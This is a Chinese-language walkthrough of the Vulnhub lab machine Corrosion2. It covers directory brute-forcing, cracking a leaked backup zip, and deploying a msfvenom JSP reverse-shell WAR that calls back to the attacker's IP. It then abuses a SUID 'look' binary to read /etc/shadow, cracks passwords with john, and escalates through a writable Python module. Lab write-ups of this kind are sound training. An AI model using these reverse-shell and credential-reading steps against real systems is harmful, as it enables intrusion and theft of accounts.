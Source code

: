 ```yaml
---

title: Vulnhub--Corrosion2
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. 8080端口访问tomcat，目录扫描发现备份文件backup泄露
2. john爆破出压缩包密码，找到用户账号密码，成功登录tomcat后台
3. 利用tomcat后台的war程序部署，部署MSF反弹shell程序
4. 获取tomcat的shell后切换jaye用户，存在SUID-LOOK文件
5. SUID-LOOK文件越权读取/etc/passwd和/etc/shadow文件
6. john破解passwd和shadow密码，获取randy用户的密码
7. SSH远程登录randy用户，利用SUDO文件成功Getshell

## 知识扩展

1. john爆破压缩包文件密码
2. SUID-Look越权读取任意文件
3. john爆破passwd和shadow密码

## 靶机地址

https://www.vulnhub.com/entry/corrosion-2,745/

## 主机发现

（1）攻击机

```py
192.168.88.128
```

（2）目标靶机

```py
192.168.88.135
```

## 信息收集

### 端口扫描

![image-20240828161530552](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281615619.png)

### 端口访问

![image-20240828161547461](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281615516.png)

![image-20240828161559517](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281615571.png)

### 目录扫描

```py
http://192.168.88.135/
http://192.168.88.135:8080/
```

![image-20240828161609835](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281616899.png)

![image-20240828161616766](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281616826.png)

### 目录爆破

```py
ffuf -u http://192.168.88.135/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c -ic -e .txt,.zip,.php,html
ffuf -u http://192.168.88.135:8080/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c -ic -e .txt,.zip,.php,html
```

![image-20240828161624850](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281616908.png)

![image-20240828161631416](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281616476.png)

### 目录访问

（1）/backup.zip

![image-20240828161643213](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281616274.png)

（2）/readme.txt

![image-20240828162407365](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281624416.png)

## 实施攻击

（1）破解backup压缩包密码

```py
zip2john backup.zip > key.txt
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

![image-20240828161701789](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281617844.png)

（2）利用破解的密码查看备份文件，得到用户的账号密码

```py
@administrator_hi5
manager/melehifokivai
admin/melehifokivai
```

![image-20240828161714124](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281617178.png)

（3）登录tomcat后台

![image-20240828161722901](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281617956.png)

（4）MSF生成反弹shell的war程序，部署到tomcat，成功反弹shell

```py
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.88.128  LPORT=8888 -f war -o revshell.war
```

![image-20240828161731654](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281617715.png)

## 提权

（1）信息收集，存在Suid-polkit文件，前往tmp目录，获取POC

```py
https://github.com/arthepsy/CVE-2021-4034
```

![image-20240828161741935](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281617001.png)

![image-20240828161750805](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281617881.png)

![image-20240828161801050](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281618125.png)

（2）没有gcc和make环境，GLIBC版本为2.31，本地编译POC上传，GLIBC不向下兼容无法执行POC，换方式进行提权

![image-20240828161812643](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281618709.png)

![image-20240828161824007](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281618063.png)

（3）利用上面获取的密码切换至用户jaye，再次进行信息收集

![image-20240828161834540](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281618622.png)

（4）存在Suid-Look文件，文件属主为root，可越权读取任意文件

![image-20240828161845938](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281618041.png)

![image-20240828161854713](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281618792.png)

（5）垃圾箱找Suid-look文件的利用方法

```py
https://gtfobins.github.io/#look
```

![image-20240828161903582](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281619635.png)

（6）Suid-Look文件在具备Suid权限下，可以以root权限读取任意文件

```py
#LFILE指定文件名
LFILE=file_to_read
./look '' "$LFILE"
```

![image-20240828161911190](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281619267.png)

（7）将/etc/passwd和/etc/shadow的内容保存至本地,利用john爆破出randy的账号密码

```py
unshadow shadow.txt passwd.txt > passwd.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
#randy用户账号密码
randy/07051986randy
```

![image-20240828161921555](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281619605.png)

![image-20240828161931288](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281619345.png)

![image-20240828161938214](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281619257.png)

（8）SSH登录用户randy，进行信息收集

![image-20240828161952344](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281619398.png)

![image-20240828162000600](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281620656.png)

![image-20240828162010792](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281620847.png)

（9）randombase64.py具备可读可执行权，没有写权限，但是该文件导入执行base64.py文件

![image-20240828162019267](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281620333.png)

（10）base64.py具备可读可写可执行权，进行OS.system提权

![image-20240828162029915](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281620978.png)

（11）修改的base64.py是python3.8目录下的，要以python3.8版本来运行randombase64.py文件

![image-20240828162044390](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281620441.png)
